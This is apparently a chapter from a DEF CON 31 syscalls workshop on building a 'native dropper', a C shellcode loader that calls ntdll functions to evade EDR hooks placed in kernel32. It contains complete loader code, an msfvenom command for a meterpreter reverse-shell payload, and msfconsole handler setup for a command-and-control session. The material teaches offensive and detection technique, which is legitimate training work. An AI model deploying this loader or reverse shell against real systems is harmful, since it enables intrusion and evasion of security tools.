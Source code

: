 ## Exercise 3: Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with **native APIs** also called **native functions** (ntdll.dll). We will create a dropper based on native APIs and call it **native dropper**.
<details>
     <p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/63b5a89f-f674-47b3-83c6-30f29f45b9cb">
</p>
</details>

## Exercice 3 tasks:
1. Download the native dropper poc from the Code section of this chapter.
2. The code in the poc is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll by using ``GetProcAddress``
3. Then create x64 meterpreter shellcode, copy it into the poc and compile it.  
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the poc from the code section of this chapter. In this poc, the four Win32 APIs from the Win32 dropper are replaced with the corresponding native functions.
- Memory allocation, ``VirtualAlloc`` is replaced by **``NtAllocateVirtualMemory``**.
- Write shellcode to memory, ``WriteProcessMemory`` is replaced by **``NtWriteVirtualMemory``**.
- Shellcode execution, ``CreateThread`` is replaced by **``NtCreateThreadEx``**.
- And ``WaitForSingleObject`` is replaced by **``NtWaitForSingleObject``**.

    
</details>

A few words about the functionality of the native dropper code. Unlike the Windows APIs, most native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. In the case of the Win32 dropper from the previous chapter, we don't need to worry about manually implementing function structures, or how to handle transitions from Win32 APIs to native APIs, etc. This is because the Windows headers like ``Windows.h`` have already implemented all the functionality and provide us with the functionality by using the Win32 APIs. If we use the native APIs directly, without the help of the Win32 APIs, it is a bit more complicated and additional code has to be used in the native dropper. The reason for this is that the Windows headers or libraries do not support the direct use of native functions, so we have to implement the required code manually. Which means to be able to use native funtions in the native dropper we have to get the memory address of each native function from ntdll.dll at runtime. 

First we need to define the function pointers for all the native functions we need. For example, ``typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);`` creates a new type ``PNTALLOCATEVIRTUALMEMORY`` which is a function pointer of type ``NTSTATUS``. In general, a function pointer is a type of pointer that points to a function instead of a data value or an array. It holds the memory address of a function, and using this pointer, we can call the function. This part is already fully implemented in the native dropper poc.
<details>
    
 ```C
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
 ```
</details>
 
The second step is to get the memory address of each native function from ntdll.dll at runtime. So we use ``GetModuleHandleA`` to open a handle to ntdll.dll in memory. Then we pass the handle and the name e.g. ``NtAllocateVirtualMemory`` to ``GetProcAddress`` to get a pointer to the native function e.g. ``NtAllocateVirtualMemory`` in ntdll.dll. Next we cast this function pointer to the type ``PNTALLOCATEVIRTUALMEMORY`` and assign or store the resulting function pointer to the corresponding variable, e.g. ``NtAllocateVirtualMemory``. In simple words, ``NtAllocateVirtualMemory`` is declared as a function pointer of type ``PNTALLOCATEVIRTUALMEMORY`` and it holds the memory address of the ``NtAllocateVirtualMemory`` function as it is loaded into the current process from ntdll.dll. So when we call NtAllocateVirtualMemory in the native dropper code, we are actually calling the function from ntdll.dll at the memory address stored in the NtAllocateVirtualMemory function pointer. This **code part is not finished** and **must be completed by the workshop attendee**. In the native dropper poc you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```C
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Results</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the native dropper poc. 

```C
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
```        

</details>
    
Shellcode declaration same as before in the Win32 dropper.
<details>

```C
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
     
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```C
#include <stdio.h>
#include <windows.h>

// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);

int main() {
    // This is placeholder shellcode. In a real use case, this would be replaced with actual shellcode
    // that you want to inject and execute. The shellcode is stored as an array of unsigned characters.
    unsigned char code[] = "\xfc\x48\x83";

    // Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");

    // Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
    // NtAllocateVirtualMemory is a function that reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.
    // 'exec' will hold the base address of the allocated memory region.
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region.
    // NtWriteVirtualMemory is a function that writes into the virtual address space of a specified process.
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread.
    // NtCreateThreadEx is a function that creates a new thread for a process.
    // The new thread starts execution by calling the function at the start address specified in the lpStartAddress parameter. 
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the thread to finish executing.
    // NtWaitForSingleObject is a function that waits until the specified object is in the signaled state or the time-out interval elapses.
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 to indicate successful execution of the program.
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the native dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our native dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled native dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via ``kernel32.dll``. The following command can be used to check the imports. Which results do you expect?
     
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Results</summary>
     
Compared to the Win32 dropper, you can see that the native dropper **no longer imports** the Windows APIs ``VirtualAlloc``, ``WriteProcessMemory``, ``CreateThread``, and ``WaitForSingleObject`` from ``kernel32.dll``. This was expected and is correct.
     
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

     
     
## Dropper Analysis: x64dbg
The first step is to run your native dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the native dropper directly in x64dbg you need to run the assembly first.
          
<details>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/be7fcea9-cac7-4aa6-8e59-d7170e63a1d5">     
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls are used in the native dropper. What results do you expect?
     
<details>
    <summary>Results</summary>
     
Checking the imported symbols in our native dropper, we should see that the Win32 APIs ``VirtualAlloc``, ``WriteProcessMemory``, ``CreateThread`` and ``WaitForSingleObject`` are no longer imported from ``kernel32.dll``. So the result is the same as with dumpbin and seems to be valid.   
     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/95b9a92e-305c-4345-b40d-3241a7092161"> 
</p>  
     
In the case of the native dropper, we want to directly access the native functions in ``ntdll.dll``. This is because the functions in ``ntdll.dll`` are not directly available through the standard Windows API headers and libraries. They have to be dynamically loaded at runtime. If we analyse the disassembled code of the native dropper (Follow in dissassembler), we can identify the code where for each of the four native functions ``GetModuleHandleA`` is used to open the handle to ``ntdll.dll``, pass the handle to ``GetProcAddress``, get the memory address of the native function e.g. ``NtAllocateVirtualMemory`` and store it into the respective function pointer.
     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6278205b-6e46-4bf9-a273-1aebc44d6afe">
</p>     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/34f24524-476b-4659-b190-3d6b252262d7">
</p>

Furthermore, if we use the symbols register in x64dbg, we can identify the manually declared function pointers that are needed to use the native functions without the help of Win32 APIs from ``kernel32.dll``.
     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d0845cdf-90d7-4200-8823-27929b1ee3bb">
</p>
</details>         
     
We also want to check, for example, for ``NtAllocateVirtualMemory``, from which module or memory location the ``syscall`` statement, ``return`` statement or native function code is executed.
     
<details>
    <summary>Results</summary>
     
Because the defined function pointers only hold the memory address of the respective native function, once the memory address is called by executing the function pointer, or more precisely by executing the variable declared as a function pointer, the ``syscall`` statement, ``return`` statement, etc. must be executed from a memory location in ``ntdll.dll``.    
     
</details>     

## Summary: Native Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via native_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR could be bypassed in context of user mode hooks in kernel32.dll
